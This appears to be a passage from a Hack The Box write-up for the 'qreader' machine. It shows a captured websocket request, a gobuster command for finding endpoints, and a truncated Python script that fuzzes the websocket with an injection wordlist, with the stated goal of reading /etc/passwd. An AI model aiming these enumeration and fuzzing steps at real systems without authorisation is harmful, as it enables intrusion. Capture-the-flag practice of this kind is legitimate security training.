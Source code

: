 ~~~python
self.statusBar().showMessage(error)
~~~
If there is some kind of way to have a valid json dump but escalate it to dump the `/etc/passwd` file then it would be a pretty easy foothold from there because all it is checking in the code is if it is a valid json then sending it back to the user. The hardest part is testing because you have to reconnect once you send a valid json.

# Interception

using wireshark to listen on your htb iface and connecting with websocat will allow you to see the traffic and can put the request into burp to fuzz.

~~~r
GET /version HTTP/1.1  
Host: qreader.htb:5789  
Connection: Upgrade  
Upgrade: websocket  
Sec-WebSocket-Version: 13  
Sec-WebSocket-Key: G2+NJRB08FAXqPPqLghE9w==
~~~

to look for more endpoints use the following command
~~~sh
gobuster dir -u http://qreader.htb:5789 -w /usr/share/dirb/wordlists/big.txt -H "Host: qreader.htb:5  
789" -H "Connection: Upgrade" -H "Upgrade: websocket" -H "Sec-WebSocket-Version: 13" -H "Sec-WebSocket-Key: G2  
+NJRB08FAXqPPqLghE9w==" -s "101,200" -b "" --timeout 5s --threads 30
~~~
Using the code bellow will allow you to fuzz the websocket
~~~python
from websocket import create_connection

import sys

import json

import time as t

  

ws_url = 'ws://qreader.htb:5789/version'

payloads = open('/usr/share/wfuzz/wordlist/Injections/All_attack.txt', 'r', errors='ignore').readlines()

headers = ["Host: qreader.htb:5789","Connection: Upgrade", "Upgrade: websocket","Sec-WebSocket-Version: 13","Sec-WebSocket-Key: G2+NJRB08FAXqPPqLghE9w=="]

  
  

for payload in payloads:

data = json.dumps({"version":payload})

#print(data)

ws = create_connection(ws_url, timeout=5, headers=headers)

#print("connected!")

#print(ws.recv())

~~~